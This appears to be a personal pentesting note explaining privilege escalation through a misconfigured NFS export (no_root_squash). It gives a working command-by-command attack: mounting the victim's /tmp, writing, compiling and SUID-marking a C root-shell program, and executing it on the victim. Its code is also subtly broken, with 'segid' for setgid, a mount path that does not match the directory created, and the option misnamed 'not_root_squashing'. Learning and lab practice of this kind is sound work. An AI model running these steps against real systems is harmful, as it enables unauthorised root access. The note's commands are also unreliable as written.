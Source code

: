 The `NFS Root Squashing` it's a security mechanism in the `NFS protocol (Network file system)` in order to prevent that a user with root access on the client `NFS` uses them on the `NFS` server to escalate on it.


When the `root squashing` is not well configured or disabled then a user with `root` access on a client `NFS` can escalate and access to privileged files into the `server NFS`.


# Root squashing identification

<mark style="background: #BBFABBA6;">To understand if our host has the root squashing configured we can use:</mark>
```bash
cat /etc/exports
```
- ![[Pasted image 20250118162401.png]]

We can see that `/tmp` has `no_root_squash`:
- this means that the folder is sharable and can be mounted


So we can mount the folder `/tmp`

# Mounting the folder
On the attacker machine we can use:
```bash
showmount -e VICTIM_IP
```
- ![[Pasted image 20250118162543.png]]

So at this point on the attacker we mount it on our host:
```bash
mkdir /tmp/mountme

mount -o rw,vers=2 VICTIM_IP:/tmp /tmp/mount
```
- ![[Pasted image 20250118162650.png]]


> NOTE: WE MUST BE ROOT ON THE ATTACKER MACHINE
# Malicious file creation
Now we create a malicious file:
```bash
echo 'int main() { segid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/shell.c
```


We created a file, we can see it using:
```bash 
cat /tmp/mountme/shell.c
```
- ![[Pasted image 20250118162912.png]]



Now we need to compile it:
```bash
gcc /tmp/mountme/shell.c -o /tmp/mountme/shell
```


We give the execution permission (`SUID`) to it:
```bash
chmod +s /tmp/mountme/shell
```
- this gives the possibility to run the file as root with `+s`
- THIS IS THE IMPORTANT PART


# Executing on victim
Now we go on the victim host and we execute the file:
```bash
cd /tmp

./shell
```
- ![[Pasted image 20250118163227.png]]


<mark style="background: #BBFABBA6;">We gain the root shell!</mark>


# When it can be done
1. When we have the `not_root_squashing`
	1. This because in that case everything we do remotely on the folder is done as `root` (BUT ONLY IF WE ARE ROOT ON THE ATTACKER MACHINE)
	2. ![[Pasted image 20250118163453.png]]
		1. The file is owned by `root`
	3. This because `NFS` doesn't convert the `root` user into a normal one with this configuration
2. When the attacker can mount the shared folder

